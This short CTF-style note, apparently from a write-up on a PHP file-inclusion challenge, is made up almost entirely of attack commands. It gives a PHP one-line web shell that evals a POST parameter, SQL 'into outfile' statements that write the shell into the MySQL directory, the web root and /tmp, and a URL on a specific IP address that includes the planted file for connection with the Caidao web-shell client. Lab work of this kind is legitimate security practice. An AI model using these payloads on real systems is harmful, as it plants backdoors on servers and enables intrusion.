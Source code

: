 
<?php eval(@$_POST['flag']); ?>

select "<?php eval(@$_POST['flag']); ?>"into outfile '/var/lib/mysql/test1.php'  能写入，无法包含。
select "<?php eval(@$_POST['flag']); ?>"into outfile '/var/www/test1.php'  无法写入
............
...........
.......

 

select "<?php eval(@$_POST['flag']); ?>"into outfile '/tmp/test.php'  可以写入

http://111.198.29.45:36252/?page=/tmp/test.php 菜刀链接
<img src="Web-php-include/caidao.jpg" width=50%/>